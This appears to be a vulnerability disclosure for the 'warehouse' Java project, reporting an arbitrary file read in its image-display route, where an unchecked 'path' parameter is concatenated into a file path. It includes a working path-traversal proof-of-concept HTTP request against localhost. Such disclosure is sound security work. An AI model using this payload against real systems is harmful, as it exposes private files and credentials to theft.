

## Arbitrary File Read Vulnerability
I discovered an arbitrary file read vulnerability in `AppFileUtils.java` of the project https://github.com/yeqifu/warehouse
`warehouse\src\main\java\com\yeqifu\sys\controller\FileController.java`
This route calls `AppFileUtils.java` by specifying the `path` parameter to display images under the corresponding directory

`warehouse\src\main\java\com\yeqifu\sys\common\AppFileUtils.java`
However, in `AppFileUtils.java`, the `path` parameter is concatenated and the corresponding file is read without checking whether it is valid
![[img/20260102165422.png]]
## Poc
```
GET /file/showImageByPath?path=../../../test.txt HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:8888/sys/toUserInfo
Cookie: JSESSIONID=6FC36D43711C37E474C84F77B5E5DA58
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i


```
By controlling the `path` parameter, users can download or view any file using a relative path shown above
![[img/20260102171006.png]]
![[img/20260102171050.png]]